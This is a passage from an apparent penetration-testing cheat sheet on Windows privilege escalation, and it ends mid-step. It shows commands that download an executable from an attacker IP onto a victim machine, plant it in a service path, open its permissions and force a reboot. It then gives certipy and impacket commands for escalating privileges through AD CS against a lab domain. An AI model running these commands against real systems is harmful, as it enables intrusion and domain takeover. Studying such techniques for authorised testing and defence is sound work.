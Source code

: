 ```powershell
# Start local web server
python3 -m http.server 8000

# -------------------------------------------------------------

# In victim Windows machine

# Start PowerShell
powershell
# Wget
Invoke-WebRequest -Uri http://<attack-ip>:8000/Devservice.exe -OutFile .\Devservice.exe
# Move the exploit to the target path
mv .\Devservice.exe '\Program Files\Development Files\'

# Change permission of the exploit
icacls 'C:\Program Files\Development Files\Devservice.exe' /grant Everyone:F

# Restart
shutdown /r /t 0
# or PowerShell's command
Restart-Computer
```

<br />

## Active Directory Certificate Services (AD CS) Privilege Escalation

AD CS is vulnerable to privilege escalation.

1. **Configure DNS**

    Modify DNS hostname on attack machine.

    ```sh
    10.0.0.1 vuln.com vulndc VULN-VULNDC-CA vuln.local
    ```

2. **Generate Certificate Test**

    ```sh
    # Request cerification
    certipy req 'vuln.local/username:password@vuln.com' -ca VULNDC-CA -template User

    # Authentication
    certipy auth -pfx administrator.pfx
    ```

3. **Add a Machine to the Domain**

    ```sh
    python3 ./impacket/examples.addcomputer.py 'vuln.local/username:password' -method LDAPS -computer-name 'MYPC' -computer-pass 'MyPcPassword'
